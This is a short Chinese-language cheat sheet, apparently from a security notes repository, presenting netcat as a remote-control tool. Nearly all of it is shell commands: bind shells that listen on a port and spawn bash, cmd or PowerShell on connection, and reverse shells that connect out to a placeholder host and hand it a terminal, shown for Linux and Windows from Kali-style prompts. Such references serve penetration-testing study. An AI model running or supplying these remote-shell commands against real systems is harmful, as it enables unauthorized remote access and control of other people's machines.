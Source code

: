 远程控制工具。

## 1 正向连接

侦听端口，并在连接后开启终端

```shell
[root@centos7-6 ~]# nc -lnvp [port] -c bash
```

```shell
[root@centos7-6 ~]# nc -lnvp [port] -e /usr/bin/bash
```

```powershell
PS C:\Users\Administrator> C:\path\nc.exe -lvnp [port] -e cmd
```

```powershell
PS C:\Users\Administrator> C:\path\nc.exe -lvnp [port] -e powershell
```

连接目标端口

```shell
┌──(root㉿kali-23)-[~]
└─# nc -nv [ip] [port]
```

```shell
┌──(root㉿kali-23)-[~]
└─# nc [host] [port]
```

```powershell
PS C:\Users\Administrator> C:\path\nc.exe -nv [ip] [port]
```

```powershell
PS C:\Users\Administrator> C:\path\nc.exe [host] [port]
```

## 2 反向链接

侦听端口

```shell
┌──(root㉿kali)-[~]
└─# nc -lnvp [port]
```

```powershell
PS C:\Users\Administrator> C:\path\nc.exe -lvnp [port]
```

连接目标端口，并在连接后开启终端

```shell
[root@centos7-6 ~]# nc -nv [ip] [port] -c bash
```

```shell
[root@centos7-6 ~]# nc [host] [port] -e /usr/bin/bash
```

```powershell
PS C:\Users\Administrator> C:\path\nc.exe [host] [port] -e cmd
```

```powershell
PS C:\Users\Administrator> C:\path\nc.exe [host] [port] -e powershell
```

---

参考链接

- [Netcat](https://nc110.sourceforge.io/)
